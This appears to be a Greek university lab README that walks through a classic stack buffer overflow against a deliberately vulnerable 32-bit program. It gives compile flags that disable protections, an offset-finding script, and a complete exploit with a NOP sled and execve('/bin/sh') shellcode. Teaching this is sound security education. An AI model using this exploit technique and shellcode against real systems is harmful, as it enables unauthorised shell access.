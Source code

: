 # Εισαγωγή σε Buffer Overflow Attacks

## Διαλέξεις

- [Διάλεξη 1](https://delos.uoa.gr/opendelos/videolecture/show?rid=46f847a7)
- [Διάλεξη 2](https://delos.uoa.gr/opendelos/videolecture/show?rid=3cc57c8c)

## Περιεχόμενο

- Αναλύσαμε τη δομή της στοίβας κατά την κλήση συναρτήσεων.
- Συζητήσαμε το shell code injection, δηλαδή την εισαγωγή και εκτέλεση κώδικα μέσω buffer overflow.
- Αναφερθήκαμε στα environment variables.
- Εξηγήσαμε τους μηχανισμούς προστασίας μνήμης (writable, readable, executable).
- Για το συγκεκριμένο exploit:
  - Θα κάνουμε compile με απενεργοποιημένο το Stack Canaries.
  - Θα κάνουμε compile ώστε η περιοχή μνήμης της στοίβας να είναι executable.
  - Θα κάνουμε compile ως 32-bit executable.

## Οδηγίες για το Compile του buf0.c

Για να κάνεις compile το `buf0.c` με απενεργοποιημένο το Stack Canaries, με executable stack, και ως 32-bit executable, χρησιμοποίησε τις παρακάτω εντολές:

```sh
sudo apt update
sudo apt install libc6-dev-i386
gcc -fno-stack-protector -z execstack -m32 -o buf0 buf0.c
```

### Γιατί κάνουμε compile ως 32-bit executable

Όταν κάνουμε compile το πρόγραμμα ως 64-bit executable, οι διευθύνσεις στη στοίβα περιέχουν μηδενικά στα υψηλότερα bits. Αυτό δημιουργεί πρόβλημα όταν προσπαθούμε να εισάγουμε αυτές τις διευθύνσεις στο payload, καθώς το `\x00` θεωρείται ως τερματικός χαρακτήρας string και το terminal το αγνοεί. Ακόμα και αν δεν το αγνοούσε, θα προκαλούσε πρόωρο τερματισμό της `strcpy`, διακόπτοντας τη διαδικασία buffer overflow.

Μια πιθανή λύση θα ήταν να γράψουμε το script κάτω από τη διεύθυνση επιστροφής, αλλά αυτό δεν έχει δοκιμαστεί και θα λειτουργούσε μόνο αν το buffer είναι αρκετά μεγάλο για να αποθηκεύσει το script. Για να αποφύγουμε αυτά τα προβλήματα, κάνουμε compile το πρόγραμμα ως 32-bit executable, όπου οι διευθύνσεις δεν περιέχουν μηδενικά στα υψηλότερα bits.

## Διαδικασία Εκτέλεσης του Exploit

Σε αυτή την άσκηση, θα κάνουμε το ίδιο exploit με την προηγούμενη, αλλά αυτή τη φορά δεν έχουμε τη συνάρτηση `thank_you` στο εκτελέσιμο στην οποία μπορούμε να περάσουμε τον έλεγχο και να έχει έτοιμο κώδικα που να μας δίνει root access. Παρόλα αυτά, θα προσπαθήσουμε να προσθέσουμε τον κώδικα οι ίδιοι μέσω του buffer overflow και να κάνουμε return σε αυτόν.

Στην ουσία, γράφουμε τα bit που αντιστοιχούν στις assembly εντολές του κώδικα που θέλουμε να τρέξουμε πάνω στην στοίβα και βάζουμε το return address να επιστρέψει σε αυτές. Παρόλα αυτά, επειδή το να υπολογίζουμε ακριβείς διευθύνσεις όπου θα πρέπει να κάνουμε το return κτλπ, και επειδή αυτά τείνουν κιόλας να αλλάζουν λίγο ανάλογα με καταστάσεις όπως αλλαγές στα environment variables, θα προσθέτουμε μια NOP sled πριν το shell code. Η NOP sled είναι στην ουσία μια ακολουθία NOP εντολών που δεν κάνουν τίποτα. Αν κάνουμε return πάνω σε αυτές, απλά θα τρέξουν μέχρι να χτυπήσουμε εν τέλει το shell code.

Για να βρεις το offset και τη διεύθυνση επιστροφής, μπορείς να πειραματιστείς με απλά payloads και να χρησιμοποιήσεις την εντολή `dmesg` για να δεις τα αποτελέσματα. Ένα παράδειγμα script για να βρεις το offset είναι το εξής:

```python
import sys

offset = b"AAAA" * 19  # Adjust the number of "AAAA" to find the correct offset

ret_address = b"BBBB"  # Placeholder for the return address

payload = offset + ret_address

sys.stdout.buffer.write(payload)
```

Τρέξε το παραπάνω script και εκτέλεσε το πρόγραμμα με το παραγόμενο payload. Στη συνέχεια, όταν προκύψει segfault, δες τα αποτελέσματα της εντολής:

```sh
sudo dmesg | tail
```

Θα δεις κάτι σαν αυτό:

```
[85652.190904] buf0[84857]: segfault at 42424242 ip 0000000042424242 sp 00000000ffffcde0 error 14 likely on CPU 5 (core 1, socket 0)
[85652.190967] Code: Unable to access opcode bytes at 0x42424218.
```

Από αυτό το αποτέλεσμα, μπορείς να δεις ότι το `ip` (instruction pointer) έχει τη διεύθυνση `0x42424242`, που αντιστοιχεί στο ASCII "BBBB". Αυτό σημαίνει ότι έχεις βρει το σωστό offset.

Για να βρεις τη διεύθυνση επιστροφής, μπορείς να χρησιμοποιήσεις την τιμή του `sp` (stack pointer) από το αποτέλεσμα του `dmesg`. Στο παραπάνω παράδειγμα, η τιμή είναι `0xffffcde0`. Πρόσθεσε σε αυτή κάτι για να δημιουργήσεις μια διεύθυνση κάπου μέσα στην περιοχή των NOPs (επειδή έβαλα 1000 NOPS προσθέτω 500):

```python
import sys
import struct

offset = b"AAAA" * 19  # Adjust the number of "AAAA" to find the correct offset

# Return address in little-endian format, adding 500 to the original address
ret_address = struct.pack("<I", 0xffffcde0 + 500)

# NOP sled
nop_sled = b"\x90" * 1000  # Adjust the size of the NOP sled as needed

shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73"
    b"\x68\x68\x2f\x62\x69\x6e\x89"
    b"\xe3\x89\xc1\x89\xc2\xb0\x0b"
    b"\xcd\x80\x31\xc0\x40\xcd\x80"
)

payload = offset + ret_address + nop_sled + shellcode

sys.stdout.buffer.write(payload)
```

- Το πρώτο μέρος του shell code (`\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3`) περιέχει τις εντολές για να φορτώσει το string "/bin/sh" στη μνήμη.
- Το δεύτερο μέρος (`\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80`) περιέχει τις εντολές για να εκτελέσει το "/bin/sh" με δικαιώματα root και να τερματίσει το πρόγραμμα.

## Σημείωση

Βεβαιώσου ότι το payload δεν περιέχει null bytes (`\x00`), καθώς αυτά μπορεί να τερματίσουν πρόωρα το string. Επίσης, η χρήση 32-bit executable είναι απαραίτητη για να αποφύγεις τα null bytes στις διευθύνσεις της στοίβας.

## Εκτέλεση του Exploit

Για να τρέξεις το exploit, χρησιμοποίησε την παρακάτω διαδικασία:

1. Δημιούργησε το payload χρησιμοποιώντας Python script:

   ```sh
   python3 exploit2.py > payload
   ```

2. Τρέξε το πρόγραμμα με το παραγόμενο payload:
   ```sh
   sudo ./buf0 `cat payload`
   ```
